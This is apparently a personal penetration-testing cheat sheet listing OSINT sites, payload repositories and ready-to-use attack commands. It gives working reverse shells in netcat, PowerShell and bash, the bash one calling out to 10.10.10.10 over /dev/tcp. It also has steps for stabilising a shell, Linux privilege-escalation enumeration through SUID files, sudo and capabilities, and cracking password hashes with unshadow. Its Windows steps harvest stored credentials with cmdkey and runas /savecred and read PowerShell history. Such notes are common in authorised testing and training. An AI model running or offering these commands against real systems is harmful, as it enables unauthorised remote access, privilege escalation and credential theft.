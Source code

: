 OSINT

SSL/TLS cert validation - http://crt.sh/ - good for identifying subdomains
DNS queries: https://dnsdumpster.com/
Public db of everything: https://www.shodan.io/

https://www.exploit-db.com/

https://crackstation.net/

Payloads all the things: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
Reverse shell cheatsheet: https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
Sec Lists: https://github.com/danielmiessler/SecLists

nc reverse shell - nc <LOCAL-IP> <PORT> -e /bin/bash

Netscat Shell stabilitisation

1. python -c 'import pty;pty.spawn("/bin/bash")'
2. export TERM=xterm
3. Ctrl + Z then stty raw -echo; fg

1. sudo apt install rlwrap
2. rlwrap nc -lvnp <port>
3. stty raw -echo; fg

Self signed crt: openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
Merge key and crt into pem: cat shell.key shell.crt > shell.pem
PS reverse shell: powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

cat /etc/passwd | grep home
sudo -l
ipconfig
netstat -a
netstat -au
netstat -at
netstat -lp
netstat -ltp
netstat -s
netstat -tp
netstat -i

find / -perm a=x -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null => Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.

https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
    - https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
    - https://github.com/mzet-/linux-exploit-suggester
    - https://github.com/diego-treitos/linux-smart-enumeration
    - https://github.com/linted/linuxprivchecker
    - https://github.com/rebootuser/LinEnum

https://gtfobins.github.io/

find / -type f -perm -04000 -ls 2>/dev/null - will list files that have SUID or SGID bits set
find / -writable 2>/dev/null - find writable folders
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u

unshadow passwd.txt shadow.txt > passwords.tx
openssl passwd -1 -salt <salt> <password> - generate salted hash for a new password
su <new account> - change account

getcap -r / - list enabled capabilities
/etc/crontab

#sh file content to execute reverse shell without nc
#!/bin/bash

bash -i >& /dev/tcp/10.10.10.10/6666 0>&1

PS commands history (From CMD) - type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
cmdkey /list - stored credentials
    => runas /savecred /user:<user> cmd.exe - use runas with stored creds

PuTTY proxy details => reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s